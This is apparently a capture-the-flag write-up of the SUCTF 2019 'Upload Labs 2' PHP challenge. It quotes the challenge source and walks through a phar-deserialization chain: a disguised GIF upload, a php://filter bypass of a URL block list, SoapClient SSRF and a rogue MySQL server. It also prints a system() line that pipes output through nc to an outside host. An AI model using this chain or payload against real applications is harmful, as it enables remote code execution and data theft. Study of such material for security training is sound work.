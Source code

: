 ### References

- [@peri0d, SUCTF 2019 Upload labs 2 踩坑记录, 2020-03-11](https://www.cnblogs.com/peri0d/p/12465523.html)
- [@Zedd, SUCTF 2019 出题笔记 & phar 反序列化的一些拓展, 2019-08-24](https://xz.aliyun.com/t/6057#toc-2)
- [MySQL connect file read, 2016-04-20](http://russiansecurity.expert/2016/04/20/mysql-connect-file-read/)

**Tag: Phar Unserialize, MySQL Client Read Arbitrary File, SoapClient**

Source code in: [Upload Labs 2](https://github.com/team-su/SUCTF-2019/tree/master/Web/Upload%20Labs%202)

1.In `index.php`, here are only allowed to upload image

```php
if (isset($_POST["upload"])) {
    $allowedExts = array("gif", "jpeg", "jpg", "png");
```

Also checked the `content-type` and limit the image size to 200k:

```php
if ((($_FILES["file"]["type"] == "image/gif")
            || ($_FILES["file"]["type"] == "image/jpeg")
            || ($_FILES["file"]["type"] == "image/png"))
        && ($_FILES["file"]["size"] < 204800)   // 小于 200 kb
        && in_array($extension, $allowedExts)
    )
```

then call the following code:

```php
$c = new Check($tmp_name);
$c->check();

// class.php
function check(){
    $data = file_get_contents($this->file_name);
    if (mb_strpos($data, "<?") !== FALSE) {
        die("&lt;? in contents!");
    }
}
```

The file content cannot have `<?` which means the file we upload cannot have `<?php`, But it is also possible to use `<script language='php'>...</script>`.

> **NOTE: Script tags `<script language="php"></script>` are removed from PHP 7.**

2.After successful upload file, we can search it in the `func.php` page. The submitted `url ` parameter are sanitized:

```php
if (isset($_POST["submit"]) && isset($_POST["url"])) {
    if(preg_match('/^(ftp|zlib|data|glob|phar|ssh2|compress.bzip2|compress.zlib|rar|ogg|expect)(.|\\s)*|(.|\\s)*(file|data|\.\.)(.|\\s)*/i',$_POST['url'])){
        die("Go away!");
    }
```

This is to filter phar unserialize, but the same thing can be done with the `php://`.

Then create `File` class and call the `getMIME` methods:

```php
$file_path = $_POST['url'];
$file = new File($file_path);
$file->getMIME();

// class.php
function getMIME(){
    $finfo = finfo_open(FILEINFO_MIME_TYPE);
    $this->type = finfo_file($finfo, $this->file_name);
    finfo_close($finfo);
}
```

As @Zedd said, the `finfo_open` method also can trigger the phar unserialize. 

So now, we can create a phar file, disguised as a gif file and upload it. Then read it through the `php://` and trigger phar unserialize.

3.`File` class has a `__wakeup` method:

```php
function __wakeup(){
    $class = new ReflectionClass($this->func);
    $a = $class->newInstanceArgs($this->file_name);
    $a->check();
}
```

If we unserialize the `File` class, we can call the `check` method of any class here. Or we should think about the `__call` magic function.

In `admin.php`, we can see the following code:

```php
if($_SERVER['REMOTE_ADDR'] == '127.0.0.1')
```

This made me think of the SoapClient class immediately, it's `__call` function can be used for SSRF.

4.In `admin.php`, here have some very additionally puzzling code:

```php
$admin = new Ad($ip, $port, $clazz, $func1, $func2, $func3, $arg1, $arg2, $arg3);
$admin->check();

function check(){
    $reflect = new ReflectionClass($this->clazz);
    $this->instance = $reflect->newInstanceArgs();

    $reflectionMethod = new ReflectionMethod($this->clazz, $this->func1);
    $reflectionMethod->invoke($this->instance, $this->arg1);

    $reflectionMethod = new ReflectionMethod($this->clazz, $this->func2);
    $reflectionMethod->invoke($this->instance, $this->arg2);

    $reflectionMethod = new ReflectionMethod($this->clazz, $this->func3);
    $reflectionMethod->invoke($this->instance, $this->arg3);
}
```

Mentioned in @Zedd's notes(refer[2]), if the environment `Ad` class using `__destruct`, the above code is useless.

```php
function __destruct(){
    getFlag($this->ip, $this->port);
}
```

But the real environment `Ad` class uses `__wakeup`:

```php
function __wakeup(){
    system("/readflag | nc $this->ip $this->port");
}
```

So we need to unserialize the `Ad` class to get flag.

In mysqli, `LOAD DATA LOCAL INFILE` trigger phar unseriliaze again. So the code in the check function actually corresponds to the mysql `connect` and `query`:

```php
$reflect = new ReflectionClass('Mysqli');
$sql = $reflect->newInstanceArgs();

$reflectionMethod = new ReflectionMethod('Mysqli', 'init');
$reflectionMethod->invoke($sql, $arr);

$reflectionMethod = new ReflectionMethod('Mysqli', 'real_connect');    // php bug #77496
$reflectionMethod->invoke($sql, 'ip','root','123456','testdb','3306');

$reflectionMethod = new ReflectionMethod('Mysqli', 'query');
$reflectionMethod->invoke($sql, 'select 1');
```

We only need to use Rogue Mysql Server :)

5.All we have to do is link the two unserializations. Generate gif file using `poc1.php` and `poc2.php` respectively and upload them. Get the path:

```te
1.gif: upload/46c01c941bd10a9c3038752f7354f2e8/b5e9b4f86ce43ca65bd79c894c4a924c.gif
2.gif: upload/46c01c941bd10a9c3038752f7354f2e8/274a01ad7ad7ad7d73d5f0b399ae5db2.gif
```

Meanwhile, run `rogue_mysql.py` with 2.gif filename and listen a port on vps to get the `system` function results.

Then go to the `func.php` page and submit the url with 1.gif path:

```php
php://filter/resource=phar://./upload/46c01c941bd10a9c3038752f7354f2e8/b5e9b4f86ce43ca65bd79c894c4a924c.gif
```

![img1](./assets/img1.png?raw=true)

---

### PS

Here is only one line of code in the `config.php`:

```php
libxml_disable_entity_loader(true);
```

Means that external entities are disabled, but why?

In reference[2], we can find the `SimpleXMLElement` class also can trigger the phar unserialize! POC:

```php
<?php
error_reporting(0);
class A {
    public function __wakeup() {
        echo "ok!";
    }
}
$poc = new SimpleXMLElement('http://zedd.cc/test/test.xml', LIBXML_NOENT, True);
```

